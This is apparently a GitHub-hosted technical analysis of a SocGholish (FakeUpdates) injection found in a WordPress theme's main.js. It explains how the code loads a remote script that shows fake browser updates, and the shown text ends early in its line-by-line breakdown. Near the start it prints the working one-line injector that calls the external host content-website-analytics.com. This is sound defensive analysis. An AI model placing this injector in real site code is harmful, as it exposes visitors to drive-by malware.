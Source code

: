 # 🔬 SocGholish Malware - Deep Technical Analysis

**Malware Family:** SocGholish (FakeUpdates)  
**Sample Date:** October 29, 2025  
**Source:** proptech.org.my  
**Analyst:** AI Assistant + amk  
**Status:** SAFE - Isolated and deactivated

---

## Executive Summary

This document provides a line-by-line technical analysis of the SocGholish JavaScript injection found in `wp-content/themes/mpa-custom/js/main.js`. The malware uses a self-executing anonymous function (IIFE) to dynamically inject a remote script that displays fake browser update prompts to website visitors.

**Risk Level:** CRITICAL  
**Attack Type:** Drive-by download via social engineering  
**Target:** Website visitors  
**Goal:** Malware distribution (ransomware, info-stealers, trojans)

---

## Part 1: The Injection Code (What We Found)

### Raw Malicious Code

```javascript
;(function(f,i,u,w,s){w=f.createElement(i);s=f.getElementsByTagName(i)[0];w.async=1;w.src=u;s.parentNode.insertBefore(w,s);})(document,'script','https://content-website-analytics.com/script.js');
```

**Length:** 195 bytes  
**Type:** JavaScript IIFE (Immediately Invoked Function Expression)  
**Obfuscation Level:** Minimal (variable name shortening only)

---

### Line-by-Line Breakdown

#### Line 1: The Semicolon Guard

```javascript
;
```

**Purpose:** Safety mechanism  
**Why:** Ensures the previous code is properly terminated before this function executes  
**Effect:** Prevents syntax errors if the previous line doesn't end with `;`

**Example Problem It Prevents:**
```javascript
// Without the leading semicolon:
var x = 5
(function(){...})()  // ❌ Error: "5 is not a function"

// With the leading semicolon:
var x = 5
;(function(){...})() // ✅ Works correctly
```

---